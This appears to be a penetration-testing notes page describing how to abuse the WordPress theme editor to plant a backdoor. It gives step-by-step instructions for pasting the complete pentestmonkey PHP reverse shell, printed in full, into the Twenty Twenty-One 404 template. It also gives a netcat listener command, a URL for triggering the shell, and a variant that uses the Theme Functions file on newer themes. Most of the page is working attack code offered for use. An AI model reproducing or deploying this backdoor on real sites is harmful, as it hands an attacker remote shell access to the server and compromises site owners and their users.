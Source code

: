# WordPress - Abuse Theme Configuration on templates

This works for version _twenty-twenty-one_ or less of the base _WordPress_ template. We can add malicious code to a page theme configuration, and this will allow us to get a reverse shell when activating the theme.

* From the administrator dashboard go to _Appearance>Edit File Editor_. On the _Select Theme to edit_ slider, select version _twenty-twenty-one_ or the one we are going to abuse. Go to the _404 Template_ tab and we will see a code like this:

{% code overflow="wrap" lineNumbers="true" %}
```php
<?php
/**
 * The template for displaying 404 pages (not found)
 *
 * @link https://codex.wordpress.org/Creating_an_Error_404_Page
 *
 * @package WordPress
 * @subpackage Twenty_Twenty_One
 * @since Twenty Twenty-One 1.0
 */

// HERE GOES THE SCRIPT FOR REVERSE SHELL!!!!

get_header();
?>
...
```
{% endcode %}

***

* Put the content of this script in the space shown above

{% code title="phpRevShell.php" overflow="wrap" lineNumbers="true" fullWidth="false" %}
```php
  // php-reverse-shell - A Reverse Shell implementation in PHP
  // Copyright (C) 2007 pentestmonkey@pentestmonkey.net

  set_time_limit (0);
  $VERSION = "1.0";
  $ip = '';  // Put your IP between the quotes
  $port = ;  // Put your port here
  $chunk_size = 1400;
  $write_a = null;
  $error_a = null;
  $shell = 'uname -a; w; id; /bin/sh -i';
  $daemon = 0;
  $debug = 0;

  //
  // Daemonise ourself if possible to avoid zombies later
  //

  // pcntl_fork is hardly ever available, but will allow us to daemonise
  // our php process and avoid zombies.  Worth a try...
  if (function_exists('pcntl_fork')) {
    // Fork and have the parent process exit
    $pid = pcntl_fork();
    
    if ($pid == -1) {
      printit("ERROR: Can't fork");
      exit(1);
    }
    
    if ($pid) {
      exit(0);  // Parent exits
    }

    // Make the current process a session leader
    // Will only succeed if we forked
    if (posix_setsid() == -1) {
      printit("Error: Can't setsid()");
      exit(1);
    }

    $daemon = 1;
  } else {
    printit("WARNING: Failed to daemonise.  This is quite common and not fatal.");
  }

  // Change to a safe directory
  chdir("/");

  // Remove any umask we inherited
  umask(0);

  //
  // Do the reverse shell...
  //

  // Open reverse connection
  $sock = fsockopen($ip, $port, $errno, $errstr, 30);
  if (!$sock) {
    printit("$errstr ($errno)");
    exit(1);
  }

  // Spawn shell process
  $descriptorspec = array(
    0 => array("pipe", "r"),  // stdin is a pipe that the child will read from
    1 => array("pipe", "w"),  // stdout is a pipe that the child will write to
    2 => array("pipe", "w")   // stderr is a pipe that the child will write to
  );

  $process = proc_open($shell, $descriptorspec, $pipes);

  if (!is_resource($process)) {
    printit("ERROR: Can't spawn shell");
    exit(1);
  }

  // Set everything to non-blocking
  // Reason: Occsionally reads will block, even though stream_select tells us they won't
  stream_set_blocking($pipes[0], 0);
  stream_set_blocking($pipes[1], 0);
  stream_set_blocking($pipes[2], 0);
  stream_set_blocking($sock, 0);

  printit("Successfully opened reverse shell to $ip:$port");

  while (1) {
    // Check for end of TCP connection
    if (feof($sock)) {
      printit("ERROR: Shell connection terminated");
      break;
    }

    // Check for end of STDOUT
    if (feof($pipes[1])) {
      printit("ERROR: Shell process terminated");
      break;
    }

    // Wait until a command is end down $sock, or some
    // command output is available on STDOUT or STDERR
    $read_a = array($sock, $pipes[1], $pipes[2]);
    $num_changed_sockets = stream_select($read_a, $write_a, $error_a, null);

    // If we can read from the TCP socket, send
    // data to process's STDIN
    if (in_array($sock, $read_a)) {
      if ($debug) printit("SOCK READ");
      $input = fread($sock, $chunk_size);
      if ($debug) printit("SOCK: $input");
      fwrite($pipes[0], $input);
    }

    // If we can read from the process's STDOUT
    // send data down tcp connection
    if (in_array($pipes[1], $read_a)) {
      if ($debug) printit("STDOUT READ");
      $input = fread($pipes[1], $chunk_size);
      if ($debug) printit("STDOUT: $input");
      fwrite($sock, $input);
    }

    // If we can read from the process's STDERR
    // send data down tcp connection
    if (in_array($pipes[2], $read_a)) {
      if ($debug) printit("STDERR READ");
      $input = fread($pipes[2], $chunk_size);
      if ($debug) printit("STDERR: $input");
      fwrite($sock, $input);
    }
  }

  fclose($sock);
  fclose($pipes[0]);
  fclose($pipes[1]);
  fclose($pipes[2]);
  proc_close($process);

  // Like print, but does nothing if we've daemonised ourself
  // (I can't figure out how to redirect STDOUT like a proper daemon)
  function printit ($string) {
    if (!$daemon) {
      print "$string
";
    }
  }  
```
{% endcode %}

{% hint style="info" %}
Remember to specify the host machine IP and port on lines 6 and 7
{% endhint %}

***

* Click on the _Update File_ button, go to _Appearance>Themes,_ and activate the theme that has been modified. Then create a _netcat_ listener in our machine

{% code overflow="wrap" lineNumbers="true" %}
```bash
nc -nlvp $port #The port that has been specificated in the script
```
{% endcode %}

***

* Visit the site and search for a URL that does not exist. If we check our listener, we should have gained the Reverse Shell

{% code overflow="wrap" lineNumbers="true" %}
```bash
http://$URL/asddfasdf #This page doesn't exist and will give us the reverse shell
```
{% endcode %}

***

{% hint style="warning" %}
All this process can also be done on Templates version 2022 or higher. Instead of modifying the _404 Template,_ we will modify the _Theme Functions_ file. This will give us the shell every time we enter a page of the web but will break the site entirely
{% endhint %}
